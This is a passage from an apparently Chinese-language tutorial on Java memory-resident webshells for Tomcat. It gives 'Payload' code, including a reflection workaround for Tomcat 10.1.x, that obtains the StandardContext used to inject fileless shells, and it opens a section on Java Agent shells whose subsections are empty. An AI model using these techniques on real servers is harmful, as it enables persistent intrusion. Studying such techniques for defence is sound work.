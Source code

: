 ```java
//Payload
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

但 Tomcat >= 10.1.x 官方废除了该接口，使其只返回null，强制运行会返回 null 并触发 NullPointerException

```java
//接口代码
    /** @deprecated */
    @Deprecated
    public WebResourceRoot getResources() {
        return null;
    }

//调用接口报错
    Cannot invoke "org.apache.catalina.WebResourceRoot.getContext()" because the return value of "org.apache.catalina.loader.WebappClassLoaderBase.getResources()" is null
```

因此在全版本中可以直接通过反射获取

## [](#header-31)1.2.3 tomcat全版本 webappclassloaderbase反射获取webresourceroot

由于笔者本人使用的 Tomcat > 10 版本，但 Tomcat >= 10.1.x 官方废除了该接口，且笔者未找到 getResources 接口废弃后的解决方案，因此自己写了个反射获取

直接使用如下代码通过反射拿取 WebResourceRoot 后调用 WebResourceRoot.getContext() 直接获取 StandardContext 进行后续操作

```java
//Payload
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
Field webappClassLoaderBaseField = WebappClassLoaderBase.class.getDeclaredField("resources");
webappClassLoaderBaseField.setAccessible(true);
WebResourceRoot webResourceRoot = (WebResourceRoot) webappClassLoaderBaseField.get(webappClassLoaderBase);
StandardContext standardContext = (StandardContext) webResourceRoot.getContext();
```



# [](#header-31)1.3 agent内存马

Agent 内存马到底是干嘛的？  
在讲 Agent 内存马，笔者尽量化繁为简，不讲代码只讲原理  

Java Agent 能在字节码这个层面对类方法进行修改

## [](#header-31)1.3.1 通过实现premain加载



## [](#header-31)1.3.2 通过实现agentmain加载


